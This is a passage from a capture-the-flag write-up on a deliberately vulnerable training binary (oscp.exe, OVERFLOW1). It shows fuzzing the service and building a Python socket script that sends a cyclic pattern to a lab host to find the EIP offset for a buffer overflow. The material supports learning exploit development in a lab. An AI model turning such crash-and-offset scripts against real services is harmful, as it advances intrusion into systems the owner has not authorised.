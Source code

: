 Executed the fuzzer:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ python fuzzer.py
Fuzzing with 5000 bytes
```

![Application crash again](../../zzz_res/attachments/Pasted_image_20210502173506.png)

Application crash again

# Exploitation

## Find the offset to control EIP

Generated the pattern:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msf-pattern_create -l 5000 | xclip -sel c

```

Updated the fuzzer:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 "
#fuzz = "A" * 5000
fuzz = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9...'

print "Fuzzing with %s bytes" % len(fuzz)
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(cmd + "/.:/"+fuzz)
	s.close()
```